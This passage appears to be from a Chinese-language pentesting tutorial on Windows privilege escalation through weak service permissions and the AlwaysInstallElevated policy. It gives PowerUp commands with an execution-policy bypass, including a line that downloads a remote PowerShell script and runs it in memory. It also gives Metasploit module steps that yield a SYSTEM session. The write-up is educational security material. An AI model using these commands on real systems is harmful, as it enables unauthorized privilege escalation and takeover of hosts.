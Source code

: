 1、PowerUP下的利用实验

这里使用PowerUP脚本：https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1进行演示

PowerUP提供了一些本地提权方法，可通过脚本来寻找目标机器中的windows服务漏洞，运行脚本的方法如下

```
#本地
powershell.exe -exec bypass -Command "& {Import-Module c:\PowerUp.ps1; Invoke-AllChecks}"
#远程
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1'); Invoke-AllChecks"
```

metasploit同样可执行powershell脚本的模块。在metasploit中加载此模块后，可通过metasploit会话来执行。将PowerUp上传到目标服务器，进行测试

```
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('C:\PowerUp.ps1'); Invoke-AllChecks"
powershell.exe -exec bypass -Command "& {Import-Module c:\PowerUp.ps1; Invoke-AllChecks}"
```

如此会显示存在问题的所有服务，并在AbuseFunction直接给出了利用方式，通过给出的利用方式来进行操作（测试靶机有点问题，搞了半天没搞出来，之前在另一台靶机测过…..）这一步主要就是跟着AbuseFunction的提示进行操作就好

2、Metasploit下的演示

Metasploit中，对应的利用模块是`exploit/windows/local/service_permissions`

```
use exploit/windows/local/service_permissions
set SESSION
exploit
```

执行exploit命令 自动反弹一个新的meterpreter system权限

![img](https://ossinaliyun.oss-cn-shanghai.aliyuncs.com/img/22-20210421112129145.png)

`exploit/windows/local/service_permissions`模块使用两种方法获得system权限：如果meterpreter以管理员权限运行，该模块尝试创建并运行一个新的服务，如果当前权限不允许创建服务，该模块会判断哪些服务或者文件夹的权限有问题，并对其进行劫持。在创建服务或者劫持已经存在的服务时，该模块会创建一个可执行文件 ，文件名和安装路径随机

### 注册表键AlwayslnstallElevated

`注册表键AlwayslnstallElevated`是一个策略设置项。Windows允许低权限用户以syetem权限运行安装文件。如果启动此策略设置项，那么任何权限的用户都能以`NT AUTHORITY\SYSTEM`权限来安装恶意的MSI文件

#### 1、PathsAlwayslnstallElevated漏洞产生原因

漏洞产生的原因是用户开启了 Windows installer特权的安装功能

在 运行设置框中输入`gpedit.msc` 打开组策略编辑器

组策略——计算机配置——管理模版——Windows组件——Windows installer——永远以高特权进行安装：选择启用

组策略——用户配置——管理模版——Windows组件——Windows installer——永远以高特权进行安装：选择启用

设置完毕后，会在注册表的以下两个位置自动创建`1`

```
HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
